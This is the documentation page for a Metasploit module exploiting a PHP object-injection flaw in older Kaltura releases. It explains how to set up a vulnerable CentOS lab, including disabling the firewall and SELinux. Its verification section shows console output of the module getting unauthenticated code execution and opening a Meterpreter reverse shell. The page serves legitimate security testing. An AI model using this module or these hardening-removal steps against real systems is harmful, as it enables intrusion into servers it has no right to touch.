 ## Vulnerable Application

This module exploits an Object Injection vulnerability in Kaltura. By exploiting this vulnerability, unauthenticated users can execute arbitrary code under the context of the web server user.

Kaltura has a module named keditorservices that takes user input and then uses it as an unserialized function parameter. The constructed object is based on the SektionEins Zend code execution POP chain PoC, with a minor modification to ensure Kaltura processes it and the Zend_Log function's __destruct() method is called. Kaltura versions prior to 11.1.0-2 are affected by this issue.

**Vulnerable Application Installation Steps**

Kaltura has their own RPM and/or DEB packages to help us to install it without any issue. Following steps are slightly different than official wiki in order to install the vulnerable packages.

Following steps are valid on the CentOS 6 x64 bit operating system.

1. Install CentOS-6 x64 and run `yum update -y` in order to fetch and install the latest packages. Also setting the hostname to something like _kalturahack.dev_ would be wise, because it will be used during Kaltura installation.
2. Disable iptables and selinux. 
```
iptables -F
service iptables stop
chkconfig iptables off
setenforce permissive
(selinux will be enabled on reboot unless editing /etc/selinux/config file.)
```
3. Install following pre-requisites.
* PHP 5.3.n, 5.4.n, 5.5.n, 5.6.n [the official distro repo version]
* MySQL/MariaDB [the official distro repo version]. Please make sure your MySQL is configured not to enforce strict mode.
* JRE 1.7.n (openjdk can be used)

4. Install Kaltura yum repo.
```
rpm -ihv http://installrepo.kaltura.org/releases/kaltura-release.noarch.rpm
```

5. Kaltura repo is configured for the latest version by default. We need to change it to one of the vulnerable releases. Thus, open `/etc/yum.repos.d/kaltura.repo` file with your favorite text editor and perform following replacement.

Original file. (# lines just ignored)
```
[Kaltura]
name = Kaltura Server
baseurl = http://installrepo.kaltura.org/releases/latest/RPMS/$basearch/
gpgkey = http://installrepo.kaltura.org/releases/RPM-GPG-KEY-kaltura
gpgcheck = 1 
enabled = 1

[Kaltura-noarch]
name = Kaltura Server arch independent
baseurl = http://installrepo.kaltura.org/releases/latest/RPMS/noarch
gpgkey = http://installrepo.kaltura.org/releases/RPM-GPG-KEY-kaltura
gpgcheck = 1
enabled = 1
baseurl = http://installrepo.kaltura.org/releases/latest/RPMS/$basearch/
```
After changes.
```
[Kaltura]
name = Kaltura Server
baseurl = http://installrepo.kaltura.org/releases/10.10.0/RPMS/$basearch/
gpgkey = http://installrepo.kaltura.org/releases/RPM-GPG-KEY-kaltura
gpgcheck = 1 
enabled = 1

[Kaltura-noarch]
name = Kaltura Server arch independent
baseurl = http://installrepo.kaltura.org/releases/10.10.0/RPMS/noarch
gpgkey = http://installrepo.kaltura.org/releases/RPM-GPG-KEY-kaltura
gpgcheck = 1
enabled = 1
baseurl = http://installrepo.kaltura.org/releases/latest/RPMS/$basearch/
```

6. Install kaltura-server. This will take a while. 
```
yum clean all
yum install kaltura-server
```

7. Run the following commands in order to initiate the database and start necessary services.
```
/opt/kaltura/bin/kaltura-mysql-settings.sh
service memcached restart
service ntpd restart
chkconfig memcached on
chkconfig ntpd on
```

8. Start the kaltura configuration script `/opt/kaltura/bin/kaltura-config-all.sh` .

```
[Email\NO]: "<your email address>"
CDN hostname [kalrpm.lcl]: "<your hostname>"
Apache virtual hostname [kalrpm.lcl]: "<your hostname>"
Which port will this Vhost listen on [80]?:

DB hostname [127.0.0.1]: "<127.0.0.1>"
DB port [3306]: "<3306>"
MySQL super user [this is only for setting the kaltura user passwd and WILL NOT be used with the application]: "<root>"
MySQL super user passwd [this is only for setting the kaltura user passwd and WILL NOT be used with the application]: "<your root password>"
Analytics DB hostname [127.0.0.1]: "<127.0.0.1>"
Analytics DB port [3306]: "<3306>"
Sphinx hostname [127.0.0.1]: "<127.0.0.1>"

Secondary Sphinx hostname: [leave empty if none] "<empty>"

VOD packager hostname [kalrpm.lcl]: "<http://kaltura-nginx-hostname>"

VOD packager port to listen on [88]: 

Service URL [http://kalrpm.lcl:80]: "<http://apache-hostname:80>"

Kaltura Admin user (email address): "<your email address>"
Admin user login password (must be minimum 8 chars and include at least one of each: upper-case, lower-case, number and a special character): "<your kaltura admin password>"
Confirm passwd: "<your kaltura admin password>"

Your time zone [see http://php.net/date.timezone], or press enter for [Europe/Amsterdam]: "<your timezone>"
How would you like to name your system (this name will show as the From field in emails sent by the system) [Kaltura Video Platform]? "<your preferred system name>"
Your website Contact Us URL [http://corp.kaltura.com/company/contact-us]: "<your contact URL>"
'Contact us' phone number [+1 800 871 5224]? "<your phone number>"

Is your Apache working with SSL?[Y/n] "<n>"
It is recommended that you do work using HTTPs. Would you like to continue anyway?[N/y] "<y>"
Which port will this Vhost listen on? [80] "<80>"
Please select one of the following options [0]: "<0>"
```

I do recommend that leaving all default values as is except SSL. You may want to install Kaltura without SSL support.

These steps are slightly different than following instruction.
[http://kaltura-install-packages.readthedocs.io/en/latest/install-kaltura-redhat-based/](http://kaltura-install-packages.readthedocs.io/en/latest/install-kaltura-redhat-based/)

## Verification Steps

A successful check of the exploit will look like this:

```
msf > use exploit/unix/webapp/kaltura_unserialize_rce 
msf exploit(kaltura_unserialize_rce) > set RHOST centoshacker.dev
RHOST => centoshacker.dev
msf exploit(kaltura_unserialize_rce) > check
[+] centoshacker.dev:80 The target is vulnerable.
msf exploit(kaltura_unserialize_rce) > exploit 

[*] Started reverse TCP handler on 10.0.0.1:4444 
[*] Sending stage (33721 bytes) to 10.0.0.134
[*] Meterpreter session 1 opened (10.0.0.1:4444 -> 10.0.0.134:50312) at 2016-09-17 22:56:44 +0300

meterpreter > pwd
/opt/kaltura/app/alpha/web
meterpreter >
```
